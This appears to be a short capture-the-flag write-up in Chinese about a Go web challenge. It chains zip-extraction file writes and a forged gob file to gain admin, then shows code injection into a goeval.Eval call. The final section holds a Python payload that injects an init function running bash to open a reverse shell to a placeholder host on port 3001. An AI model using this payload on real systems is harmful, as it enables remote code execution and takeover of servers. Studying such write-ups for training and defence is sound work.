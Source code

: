 tags:: [[CTFWEB/Zip]], [[CTFWEB/Golang]]

- # 思路
	- 上传并解压zip文件可以实现任意文件写入
	- 写入gob文件可以获取admin权限
	- 获取admin权限可以利用注入进行RCE
- # 命令注入
	- 相关代码
		- ```go
		  eval, err := goeval.Eval(
		    "", 
		    "fmt.Println(\"Good\")", 
		    c.DefaultQuery("pkg", "fmt")
		  )
		  ```
	- 查看函数实现可知此处使用^^拼接生成`.go`文件并执行^^的方法实现eval，且第三个参数会拼接到eval处
	- 我们可以通过import其他package并注入一个`init`函数实现RCE
	- payload
		- ```python
		  r = base_get(f"{url}/backdoor", params = {
		      "pkg": "\"os/exec\"\n fmt\"\n)\n\nfunc\tinit(){\ncmd:=exec.Command(CMD)\nout,_:=cmd.CombinedOutput()\nfmt.Println(string(out))\n}\n\n\nvar(a=\"1".replace(
		          "CMD",
		          '"bash","-c","{}"'.format(
		              generate_reverse_shell_payload("xxx.eu.org", 3001)
		          )
		      )
		  })
		  print(r.text)
		  ```